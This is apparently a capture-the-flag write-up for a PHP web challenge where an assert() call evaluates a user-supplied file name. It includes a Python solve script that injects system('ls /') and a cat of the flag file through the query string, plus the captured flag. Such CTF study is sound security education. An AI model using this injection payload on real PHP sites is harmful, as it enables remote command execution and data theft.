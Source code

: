 ```yaml
---
ai_date: 2025-04-27 05:18:17
ai_summary: User-supplied code execution via string manipulation in PHP assert statement
ai_tags:
  - xss
  - cmd-injection
  - rce
created: 2024-07-19T15:44
points: 100
solves: 518
tags:
  - php
  - assert
updated: 2025-07-14T09:46
---
```


## assert

```php
assert("strpos('$file', '..') === false") or die("Invalid file!");
```

This line is dangerous as the assert statement is acting as `eval`.
It is running user supplied strings as code.

Our payload is hence simple.
## solve script

```python
import requests
import urllib.parse
payload = urllib.parse.quote_plus("'.die(system('ls /')).'")
print(requests.get("http://journal.chal.imaginaryctf.org/?file="+payload).text)

payload = urllib.parse.quote_plus("'.die(system('cat /flag-cARdaInFg6dD10uWQQgm.txt')).'")
print(requests.get("http://journal.chal.imaginaryctf.org/?file="+payload).text)
```

```flag
ictf{assertion_failed_e3106922feb13b10}
```